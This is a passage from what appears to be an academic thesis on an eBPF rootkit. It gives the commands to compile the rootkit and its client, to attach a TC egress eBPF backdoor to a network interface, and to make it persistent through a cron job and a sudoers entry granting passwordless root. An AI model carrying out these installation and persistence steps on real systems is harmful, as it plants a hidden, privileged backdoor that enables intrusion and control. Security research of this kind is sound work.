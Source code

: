 As we can observe in the table, there are two Makefiles:
\begin{itemize}
\item A Makefile under src/client to compile only the rootkit client.
\item A Makefile under src to compile all rootkit files.
\end{itemize}

Therefore, the complete compilation process would consist on the commands shown in Code snippet \ref{code:compilation}.
\begin{lstlisting}[language=C, caption={Rootkit and rootkit client compilation.}, label={code:compilation}]
//Rootkit files
cd src
make
//Rootkit client
cd client
make
\end{lstlisting}

The output programs corresponding to the rootkit will be stored under a directory \textit{src/bin}, while those belonging to helper and client programs will be stored together with the corresponding source code.

It must also be noted that, although the rootkit backdoor and C2 capabilities work out of the box, the rest of the rootkit modules need further configuration. This configuration is set via the src/common/constants.h file, and during the rest of this evaluation we will detail the relevant settings for each individual module.

\subsection{Installation}
Once the rootkit programs are compiled, the \textit{tc.o} and \textit{kit} programs must be loaded orderly. Code snippet \ref{code:installation} shows the commands to execute for installing the rootkit.

\begin{lstlisting}[language=C, caption={Rootkit installation steps.}, label={code:installation}]
//TC egress program
sudo tc qdisc add dev enp0s3 clsact
sudo tc filter add dev enp0s3 egress bpf direct-action obj bin/tc.o sec classifier/egress
//Libbpf-powered rootkit
sudo ./bin/kit -t enp0s3
\end{lstlisting}

Note that the network interface enp0s3 may be substituted with any other interface on which the attacker desires the backdoor to be operating.

Finally, we should create the files that guarantee the rootkit persistence, as shown in Code snippet \ref{code:persist}.
\begin{lstlisting}[language=C, caption={Creation of rootkit persistence files.}, label={code:persist}]
echo "* * * * * osboxes /bin/sudo /home/osboxes/TFG/src/helpers/deployer.sh" > /etc/cron.d/ebpfbackdoor
echo "osboxes ALL=(ALL:ALL) NOPASSWD:ALL #" > /etc/sudoers.d/ebpfbackdoor
\end{lstlisting}

